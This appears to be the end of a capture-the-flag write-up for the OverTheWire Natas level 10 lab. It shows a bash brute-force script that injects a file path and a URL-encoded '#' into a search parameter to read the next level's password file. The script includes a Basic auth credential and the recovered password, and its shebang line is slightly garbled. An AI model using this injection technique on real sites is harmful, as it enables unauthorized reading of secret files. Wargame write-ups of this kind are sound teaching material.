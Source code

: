 ![natas10](/images/overthewire_natas/natas10.png)

We can do much better, let's append our injection with `%23` which is the url encoded value of `#`. In bash `#` is used for comments, so by inserting `#` at the end of the command we ignore `dictionary.txt` Hence, we got a clean output which make it easy for us to create a script to brute force.

```
#!/bin§bash

AUTH="Authorization: Basic bmF0YXMxMDpuT3BwMWlnUUFrVXphSTFHVVVqem4xYkZWajd4Q056dQ=="

for fuzz in {a..z}
do
	content=`curl -s "http://natas10.natas.labs.overthewire.org/?needle=$fuzz%20/etc/natas_webpass/natas11%20%23&submit=Search" -H "$AUTH"`
	password=$(echo "$content" | grep -A1 '<pre>' | tr -d '\n,<pre>,</pre>' )
	if [ ! -z $password ] && [[ "$password" =~ [a-zA-Z0-9]+ ]]
	then
		echo password found: $password
		exit 0
	fi
done
```

Output:

![natas10](/images/overthewire_natas/natas10_02.png)

Manuel:

![natas10](/images/overthewire_natas/natas10_01.png)

The password: `U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`


Thanks for reading, Happy hacking.
